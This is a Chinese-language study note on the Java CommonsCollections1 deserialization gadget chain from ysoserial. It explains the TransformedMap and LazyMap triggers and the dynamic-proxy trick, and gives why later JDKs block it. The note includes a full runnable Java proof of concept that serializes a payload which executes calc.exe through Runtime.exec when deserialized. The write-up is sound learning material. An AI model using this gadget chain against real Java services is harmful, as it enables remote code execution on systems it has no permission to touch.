





# CommonsCollections1笔记

代码在github搜索ysoserial即可，这里一个比较好玩的是动态代理，这里给一篇参考文章，https://www.liaoxuefeng.com/wiki/1252599548343744/1264804593397984

## TransformedMap利用链触发流程

​	经过TransformedMap.decorate修饰后的触发其实不在于put方法的触发，而在于org.apache.commons.collections.map.TransformedMap#checkSetValue

至于为什么，这里我来简单说两句这里memberValues也就是TransformedMap对象，其entrySet方法返回的是org.apache.commons.collections.map.AbstractInputCheckedMapDecorator.MapEntry



之后在调用setValue方法的时候，就会调用org.apache.commons.collections4.map.TransformedMap#checkSetValue，后面不必多说了

```java
    protected V checkSetValue(V value) {
        return this.valueTransformer.transform(value);
    }
```



后面LazyMap其实就是对这个的绕过

## LazyMap利用链触发流程

​	LazyMap 的作用是“懒加载”，在get找不到值的时候，它会调用 factory.transform 方法去获取一个值，我们可以利用此来执行整个transform的整个利用过程

然后关于如何触发到get方法，其实在`AnnotationInvocationHandler`类的`invoke`方法有调用到get

我这里本机是jdk7u21，这是我看到的代码


可以看到这里在调用其他方法时(从图中看是除了(toString、hashCode、annotationType)会触发get方法，而`this.memberValues`可控

因此不难想到将`AnnotationInvocationHandler`用`Proxy`进行代理，那么在`readObject`的时候，只要调用任意方法，就会进入到 `AnnotationInvocationHandler#invoke` 方法中，进而触发我们的 `LazyMap#get`


因此不难得到下面的代码

```java
package lldapp;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class CC1 {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.class),

            new InvokerTransformer("getMethod", new Class[]{
                String.class,
                Class[].class}, new Object[]{"getRuntime",
                new Class[0]}),
            new InvokerTransformer("invoke", new Class[]{
                Object.class,
                Object[].class}, new Object[]{null, new
                Object[0]}),
            new InvokerTransformer("exec", new Class[]{String.class
            },
                new String[]{"calc.exe"}),
        };
        Transformer transformerChain = new
            ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);
        Class clazz =
            Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = clazz.getDeclaredConstructor(Class.class,
            Map.class);
        construct.setAccessible(true);
        InvocationHandler handler = (InvocationHandler)
            construct.newInstance(Retention.class, outerMap);
        Map proxyMap = (Map)
            Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[]{Map.class},
                handler);
        handler = (InvocationHandler)
            construct.newInstance(Retention.class, proxyMap);
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(handler);
        oos.close();

        ObjectInputStream ois = new ObjectInputStream(new
            ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object) ois.readObject();
    }
}

```

## 为什么高版本不行了

主要是sun.reflect.annotation.AnnotationInvocationHandler#readObject的逻辑变了，http://hg.openjdk.java.net/jdk8u/jdk8u/jdk/rev/f8a528d0379d

从原来的defaultReadObject改为了下面的

```java
-        s.defaultReadObject();
+        ObjectInputStream.GetField fields = s.readFields();
```

看下更改后的readFields的调用栈，在读取恢复field的时候会调用sun.reflect.annotation.AnnotationInvocationHandler#readObjec

```java
readObject:452, AnnotationInvocationHandler (sun.reflect.annotation) [2]
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
invokeReadObject:1058, ObjectStreamClass (java.io)
readSerialData:1900, ObjectInputStream (java.io)
readOrdinaryObject:1801, ObjectInputStream (java.io)
readObject0:1351, ObjectInputStream (java.io)
defaultReadFields:2000, ObjectInputStream (java.io)
readSerialData:1924, ObjectInputStream (java.io)
readOrdinaryObject:1801, ObjectInputStream (java.io)
readObject0:1351, ObjectInputStream (java.io)
access$300:206, ObjectInputStream (java.io)
readFields:2164, ObjectInputStream$GetFieldImpl (java.io)
readFields:541, ObjectInputStream (java.io)
```

这里对Lazymap当中的key与value取出来，重新用LinkedHashMap进行了包装



导致了之后在readFields之后，在调用entrySet的时候，通过动态代理调用后不再能触发LazyMap的get方法




